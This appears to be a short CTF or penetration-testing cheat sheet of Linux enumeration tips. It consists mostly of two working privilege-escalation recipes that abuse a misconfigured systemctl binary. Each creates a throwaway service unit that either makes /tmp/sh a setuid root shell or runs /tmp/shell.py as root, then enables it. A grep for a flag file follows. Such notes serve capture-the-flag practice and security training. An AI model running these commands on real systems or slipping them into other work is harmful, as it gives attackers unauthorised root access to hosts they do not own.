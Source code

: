 # Linux Enumeration Tips


## /bin/systemctl
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chown root:root /tmp/sh; chmod u+s /tmp/sh"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "python /tmp/shell.py"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

## Grep all file for string
```
grep -ilR "flag11" / 2>/dev/null
```